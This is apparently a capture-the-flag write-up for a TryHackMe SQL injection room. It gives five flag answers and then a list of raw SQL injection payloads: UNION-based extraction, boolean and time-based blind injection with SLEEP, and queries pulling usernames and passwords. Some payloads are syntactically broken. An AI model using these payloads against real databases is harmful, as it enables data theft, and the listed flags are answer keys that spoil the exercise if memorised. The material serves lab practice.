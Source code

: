 # TryHackMe SQHell

> Saikat Karmakar | Aug 10 : 2021

---

## Task 1

1. Flag 1
```
THM{FLAG1:E786483E5A53075750F1FA792E823BD2}
```
2. Flag 2
```
THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}
```
3. Flag 3
```
THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}
```
4. Flag 4
```
THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}
```
5. Flag 5
```
THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}
```


**Used to build the payloads**

id=1 and 1=2 UNION SELECT 1,column_name,3,4 FROM information_schema.columns where table_name='flag' limit 0,1 -- -

id=1 and 1=2 UNION SELECT 1,id,flag,4 FROM sqhell_5.flag LIMIT 0,1-- -

id=1 and 1=2 UNION SELECT 1,2,CONCAT(id,flag),4 FROM sqhell_5.flag LIMIT 0,1-- -

admin' UNION SELECT NULL FROM flag WHERE flag LIKE 'T%25

admin'  AND (SELECT SUBSTR((SELECT flag from flag),1,1)='T') AND '1'='1

1' AND (SELECT 1 FROM (SELECT(SLEEP(10-IF(1=1))))bAKL) AND 'vRxe'='vRxe 

1' AND (SELECT 1 FROM (SELECT(SLEEP(10-(IF(1=1))))XyZk) 

1' AND (SELECT 1 FROM (SELECT(SLEEP(10)))XyZk)-- CYEd

1' AND (SELECT 1 FROM (SELECT(SLEEP(10-IF(1=1))))bAKL) AND 'vRxe'='vRxe 


1' AND (SELECT 1 FROM (SELECT(SLEEP(10-(IF(SUBSTR((SELECT flag from flag),1,1)='T',0,10)))))bAKL) AND 'vRxe'='vRxe

1' AND (SELECT 1 FROM (SELECT(SLEEP(5-(IF(1=1)))XyZk)-- CYEd



1 AND 1=1 -- - 

1 UNION ALL SELECT 'flag',2,3 -- - 
2 UNION ALL SELECT username(),2,3 FROM sqhell_4.flag-- -

2 UNION ALL SELECT group_concat(flag,0x3a,id),2,3 FROM sqhell_4-- - 

1 AND 1=2 UNION SELECT NULL,CONCAT(username,'-',password),NULL FROM information_schema.tables WHERE table_name='users' LIMIT 0,1-- -


id=2 AND (SELECT 3130 FROM (SELECT CASE WHEN (1=2) THEN 1/0 ELSE SLEEP(10) END)QtfL)

1 AND 1=2 UNION SELECT NULL,column_name,NULL FROM information_schema.columns where table_name='users' LIMIT 0,1-- -



2 UNION ALL SELECT  "2 UNION ALL SELECT 1,flag,3,4 from flag -- - ",2,3 FROM users-- -


1 AND (SELECT 1 FROM (SELECT(SLEEP(10-(IF(SUBSTR((SELECT username from users ),1,1)='b',0,10)))))bAKL) 